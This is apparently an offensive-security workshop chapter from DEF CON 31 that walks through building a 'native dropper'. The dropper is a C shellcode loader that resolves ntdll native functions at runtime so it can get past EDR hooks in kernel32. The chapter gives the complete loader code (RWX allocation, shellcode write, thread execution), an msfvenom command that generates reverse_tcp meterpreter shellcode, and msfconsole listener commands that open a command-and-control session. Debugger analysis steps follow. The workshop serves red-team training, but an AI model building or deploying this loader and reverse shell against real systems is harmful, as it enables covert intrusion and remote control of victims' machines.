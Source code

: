 ## Exercise 3: Native Dropper
In this exercise we will make the first modification to the Win32 dropper, replacing the Windows APIs (kernel32.dll) with **native APIs** also called **native functions** (ntdll.dll). We will create a dropper based on native APIs and call it **native dropper**.
<details>
     <p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/63b5a89f-f674-47b3-83c6-30f29f45b9cb">
</p>
</details>

## Exercice 3 tasks:
1. Download the native dropper poc from the Code section of this chapter.
2. The code in the poc is partially complete. Following the instructions in this playbook, you need to finish the part where the four native functions are loaded from ntdll.dll by using ``GetProcAddress``
3. Then create x64 meterpreter shellcode, copy it into the poc and compile it.  
4. Create and run a staged x64 meterpreter listener using msfconsole.
5. Run your compiled .exe and check that a stable command and control channel opens. 
6. Use the Visual Studio **dumpbin** tool to analyse the native dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
7. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected? 


## Visual Studio
You can download the poc from the code section of this chapter. In this poc, the four Win32 APIs from the Win32 dropper are replaced with the corresponding native functions.
- Memory allocation, ``VirtualAlloc`` is replaced by **``NtAllocateVirtualMemory``**.
- Write shellcode to memory, ``WriteProcessMemory`` is replaced by **``NtWriteVirtualMemory``**.
- Shellcode execution, ``CreateThread`` is replaced by **``NtCreateThreadEx``**.
- And ``WaitForSingleObject`` is replaced by **``NtWaitForSingleObject``**.

A few words about the functionality of the native dropper code. Unlike the Windows APIs, most native APIs are not officially or partially documented by Microsoft and are therefore not intended for Windows OS developers. In the case of the Win32 dropper from the previous chapter, we don't need to worry about manually implementing function structures, or how to handle transitions from Win32 APIs to native APIs, etc. This is because the Windows headers like ``Windows.h`` have already implemented all the functionality and provide us with the functionality by using the Win32 APIs. If we use the native APIs directly, without the help of the Win32 APIs, it is a bit more complicated and additional code has to be used in the native dropper. The reason for this is that the Windows headers or libraries do not support the direct use of native functions, so we have to implement the required code manually. Which means to be able to use native funtions in the native dropper we have to get the memory address of each native function from ntdll.dll at runtime. 

First we need to define the function pointers for all the native functions we need. For example, ``typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);`` creates a new type ``PNTALLOCATEVIRTUALMEMORY`` which is a function pointer of type ``NTSTATUS``. In general, a function pointer is a type of pointer that points to a function instead of a data value or an array. It holds the memory address of a function, and using this pointer, we can call the function. This part is already fully implemented in the native dropper poc.
<details>
    
 ```
// Define typedefs for function pointers to the native API functions we'll be using.
// These match the function signatures of the respective functions.
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
 ```
</details>
 
The second step is to get the memory address of each native function from ntdll.dll at runtime. So we use ``GetModuleHandleA`` to open a handle to ntdll.dll in memory. Then we pass the handle and the name e.g. ``NtAllocateVirtualMemory`` to ``GetProcAddress`` to get a pointer to the native function e.g. ``NtAllocateVirtualMemory`` in ntdll.dll. Next we cast this function pointer to the type ``PNTALLOCATEVIRTUALMEMORY`` and assign or store the resulting function pointer to the corresponding variable, e.g. ``NtAllocateVirtualMemory``. In simple words, ``NtAllocateVirtualMemory`` is declared as a function pointer of type ``PNTALLOCATEVIRTUALMEMORY`` and it holds the memory address of the ``NtAllocateVirtualMemory`` function as it is loaded into the current process from ntdll.dll. So when we call NtAllocateVirtualMemory in the native dropper code, we are actually calling the function from ntdll.dll at the memory address stored in the NtAllocateVirtualMemory function pointer. This **code part is not finished** and **must be completed by the workshop attendee**. In the native dropper poc you will see, that the code for the native function ``NtAllocateVirtualMemory`` is already written and based on that schema you have to complete it for the other three native functions ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``.
<details>
    
```
// Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
// or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");    
```    
     
</details>    

<details>
    <summary>Solution</summary>
If it was at this time not possible for you to complete the code for the three missing native functions, you can use the following code and copy it into the native dropper poc. 

```
// Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
    // or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
```        

</details>
    
Shellcode declaration same as before in the Win32 dropper.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>

    
     
Here is the **complete code**, but you can also find it already implemented in the code poc of this chapter.
<details>
    
```
#include <stdio.h>
#include <windows.h>

// Define typedefs for function pointers to the native API functions we'll be using.
// These match the function signatures of the respective functions.
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);

int main() {
    // This is placeholder shellcode. In a real use case, this would be replaced with actual shellcode
    // that you want to inject and execute. The shellcode is stored as an array of unsigned characters.
    unsigned char code[] = "\xfc\x48\x83";

    // Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
    // or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");

    // Allocate a region of virtual memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode.
    // NtAllocateVirtualMemory is a function that reserves, commits, or changes the state of a region of memory within the virtual address space of a specified process.
    // 'exec' will hold the base address of the allocated memory region.
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region.
    // NtWriteVirtualMemory is a function that writes into the virtual address space of a specified process.
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread.
    // NtCreateThreadEx is a function that creates a new thread for a process.
    // The new thread starts execution by calling the function at the start address specified in the lpStartAddress parameter. 
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the thread to finish executing.
    // NtWaitForSingleObject is a function that waits until the specified object is in the signaled state or the time-out interval elapses.
    NtWaitForSingleObject(hThread, FALSE, NULL);

    // Return 0 to indicate successful execution of the program.
    return 0;
}
```
</details>

    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the native dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our native dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled native dropper. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## Native Dropper Analysis: Dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports medium_level.exe
```
</details>    

<details>
    <summary>Solution</summary>    
Compared to the Win32 dropper, you can see that the native dropper **no longer imports** the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="729" alt="image" src="https://user-images.githubusercontent.com/50073731/235374656-117e0468-cd4d-4832-afb7-599cf94d2f1b.png">
</p>
</details>    

     
     
## Native Dropper Analysis: x64dbg
The first step is to run your native dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the native dropper directly in x64dbg you need to run the assembly first.
     
     
<details>
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/be7fcea9-cac7-4aa6-8e59-d7170e63a1d5">     
</p>            
</details>    


First we want to check which APIs (Win32 or Native) or if the correct APIs are being imported and from which module or memory location. 
Remember that no direct syscalls are used in the native dropper. What results do you expect?
     
<details>
    <summary>Solution</summary>
Checking the imported symbols in our native dropper, we should see that the Win32 APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are no longer imported from kernel32.dll. So the result is the same as with dumpbin and seems to be valid.     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/95b9a92e-305c-4345-b40d-3241a7092161"> 
</p>  
     
In the case of the native dropper, we want to directly access the native functions in ntdll.dll. This is because the functions in ntdll.dll are not directly available through the standard Windows API headers and libraries. They have to be dynamically loaded at runtime.
If we analyse the disassembled code of the native dropper (Follow in dissassembler), we can identify the code where for each of the four native functions ``GetModuleHandleA'' is used to open the handle to ntdll.dll, pass the handle to ``GetProcAddress'', get the memory address of the native function e.g. NtAllocateVirtualMemory and store it into the respective function pointer.
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/6278205b-6e46-4bf9-a273-1aebc44d6afe">
</p>     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/34f24524-476b-4659-b190-3d6b252262d7">
</p>

Furthermore, if we use the symbols register in x64dbg, we can identify the manually declared function pointers that are needed to use the native functions without the help of Win32 APIs from kernel32.dll.
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/d0845cdf-90d7-4200-8823-27929b1ee3bb">
</p>
</details>         
     
We also want to check, for example, for NtAllocateVirtualMemory, from which module or memory location the syscall statement, return statement or native function code is executed.
<details>
    <summary>Solution</summary>
     Because the defined function pointers only hold the memory address of the respective native function, once the memory address is called by executing the function pointer, or more precisely by executing the variable declared as a function pointer, the syscall statement, return statement, etc. must be executed from a memory location in ntdll.dll.         
</p>            
</details>     

## Summary: Native Dropper
- We made the transition from high-level APIs to medium-level APIs, or from Windows APIs to native APIs.
- But still no direct use of system calls
- Syscall execution via native_dropper.exe -> ntdll.dll -> syscall
- Dropper no longer imports Windows APIs from kernel32.dll
- In case of EDR would only hook kernel32.dll -> EDR could be bypassed in context of user mode hooks in kernel32.dll
